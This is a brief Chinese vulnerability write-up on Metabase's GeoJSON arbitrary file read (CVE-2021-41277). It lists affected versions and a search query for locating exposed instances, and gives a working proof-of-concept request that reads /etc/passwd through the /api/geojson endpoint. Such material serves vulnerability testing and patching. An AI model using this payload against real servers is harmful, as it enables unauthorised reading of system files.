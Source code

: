 # Metabase geojson 任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息

## 漏洞影响

```
metabase version < 0.40.5
metabase version >= 1.0.0, < 1.40.5
```

## 网络测绘

```
app="metabase"
```

## 漏洞复现

登录页面

![image-20220524152541900](./images/202205241525945.png)

验证POC

```
/api/geojson?url=file:/etc/passwd
```

![image-20220524152721994](./images/202205241527087.png)